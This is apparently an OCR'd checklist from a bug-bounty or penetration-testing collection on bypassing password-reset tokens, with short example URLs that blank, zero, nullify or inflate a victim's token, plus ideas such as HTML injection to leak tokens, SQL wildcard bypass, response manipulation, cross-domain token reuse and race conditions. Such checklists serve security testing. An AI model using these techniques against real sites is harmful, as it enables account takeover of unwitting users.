 [ ] HTML injection in Email
```
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```

[ ] Remove token
```
http://example.com/reset?eamil=victims@gmail.com&token=
```

[ ] Change it to 0000
```
http://example.com/reset?eamil=victims@gmail.com&token=0000000000
```

[ ] Use Null Value
```
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil
```

[ ] try an array of old tokens
```
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

[ ] SQLi bypass
```
try sqli bypass and wildcard or, %, *
```

[ ] Request Method / Content Type
```
change request method (get, put, post etc) and/or content type (xml<>json) 
```

[ ] Response Manipulation
```
Replace bad response and replace with good one
```

[ ] Massive Token
```
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string
```

[ ] Crossdomain Token Usage
```
If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.
```
[ ] Leaking Reset Token in Response Body                                                                                                                   
[ ] change 1 char at the begin/end to see if the token is evaluated                                                                                         
[ ] use unicode char jutzu to spoof email address                                                                                                           
[ ] look for race conditions                                                                                                                               
[ ] try to register the same mail with different TLD (.eu,.net etc)                                                                                        
---

